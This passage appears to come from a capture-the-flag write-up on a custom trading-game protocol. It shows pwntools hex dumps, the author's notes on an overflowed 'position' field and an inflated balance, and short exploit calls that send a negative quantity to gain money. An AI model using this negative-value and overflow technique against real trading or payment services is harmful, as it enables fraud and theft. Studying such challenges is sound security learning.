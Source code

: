 ```python
    00000000  03 02 00 00  00 00 00 00  00 00 00 00  00 00 00 34  │····│····│····│···4│
    00000010  40                                                  │@│
    00000011
[DEBUG] Received 0x12 bytes:
    00000000  01 00 80 17  00 10 27 00  00 00 00 00  00 00 00 00  │····│··.·│····│····│
    00000010  00 00                                               │··│
    00000012
[DEBUG] Received 0x19 bytes:
    00000000  20 7f 17 00  20 4e 00 00  00 02 00 00  00 00 00 00  │ ···│ N··│····│····│
    00000010  00 00 00 00  00 00 00 34  40                        │····│···4│@│
    00000019
[DEBUG] Received 0x12 bytes:
    00000000  01 02 02 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  34 40                                               │4@│
    00000012
[DEBUG] Received 0x19 bytes:
    00000000  21 00 00 00  29 65 cd cd  41 75 00 00  00 00 00 00  │!···│)e··│Au··│····│
    00000010  00 fe ff ff  ff ff ff ff  ff                        │····│····│·│
    00000019
CLIENT PACKET
  balance: 1000000082.0
  MagicNum: 117
  position: 18446744073709551614 
```


I've taking the freedom to pretify the `0x21` packet. And would you look at that, money increased and position overflowed.
Unfortuatly if you play around with that a bit more it doesn't seem to convert into anthing. You can only guess (or reverse) that the overflow
isn't working in our favor. Lets try again without overflowing.

```python
r.send(pk1(2))
r.send(pk0(200, -2))
r.send(pk3(1, 200))
```
 
```python
CLIENT PACKET
  balance: 999999807.0
  MagicNum: 115
  position: 0
[DEBUG] Sent 0x9 bytes:
    00000000  01 02 00 00  00 00 00 00  00                        │····│····│·│
    00000009
[DEBUG] Sent 0x11 bytes:
    00000000  00 00 00 00  00 00 00 69  40 fe ff ff  ff ff ff ff  │····│···i│@···│····│
    00000010  ff                                                  │·│
    00000011
[DEBUG] Received 0x12 bytes:
    00000000  01 02 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  f0 3f                                               │·?│
    00000012
[DEBUG] Received 0x12 bytes:
    00000000  01 00 b6 24  00 40 0d 03  00 00 00 00  00 00 00 00  │···$│·@··│····│····│
    00000010  00 00                                               │··│
    00000012
[DEBUG] Sent 0x11 bytes:
    00000000  03 01 00 00  00 00 00 00  00 00 00 00  00 00 00 69  │····│····│····│···i│
    00000010  40                                                  │@│
    00000011
[DEBUG] Received 0x19 bytes:
    00000000  20 b6 24 00  40 0d 03 00  00 01 00 00  00 00 00 00  │ ·$·│@···│····│····│
    00000010  00 00 00 00  00 00 00 69  40                        │····│···i│@│
```